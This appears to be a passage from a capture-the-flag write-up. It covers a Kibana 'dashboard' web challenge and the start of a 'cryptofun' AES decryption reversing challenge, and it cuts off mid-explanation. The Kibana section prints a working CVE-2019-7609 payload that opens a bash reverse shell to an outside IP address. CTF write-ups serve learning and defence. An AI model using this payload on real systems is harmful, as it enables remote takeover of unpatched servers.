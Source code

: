 Flag: **CTF{eddac56d91eda9d609dd84962077d316482be820498220beb14b406202861943}**

<a name="dashboard"></a>
## dashboard (170 pts, 34 solves) - Web

Description:
```
Not a fan of elastic but kibana looks good!

Flag format CTF{sha256}.
```

Kibana vulnerable to CVE-2019-7609 RCE. The exploit is better explained here: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

Payload: 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/79.118.112.161/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Flag: **CTF{959d8d60e1842aab5994f0e6659620ba674d4162a7414332d398fb55b5c3bf37}**

<a name="cryptofun"></a>
## cryptofun (900 pts, 1 solve) - Cryptography

Description:
```
You have some encrypted files and a binary proving the functionality of the encryption algorithm and implementing all the required decryption parameters. 
Can you find the flags if you know that the password is C0mpl3xP@ss ?

**Multiple Flags!**

Flag format: CTF{sha256}
```

The binary is taking the password as a command line argument, it derives a key and IV using EVP_BytesToKey and then initializes a AES 256 CBC context using those parameters:

![](/assets/images/posts/2022-07-25-01-05-44.png)

The context is then used in the aes_decrypt fuction:

![](/assets/images/posts/2022-07-25-01-08-29.png)

Which is called in 2 places:

First it checks that the header (first 16 bytes) correspond to the filename in the binary:

![](/assets/images/posts/2022-07-25-01-08-54.png)

If the check succeeds, then the rest of the content is decrypted as well (IV is reset):
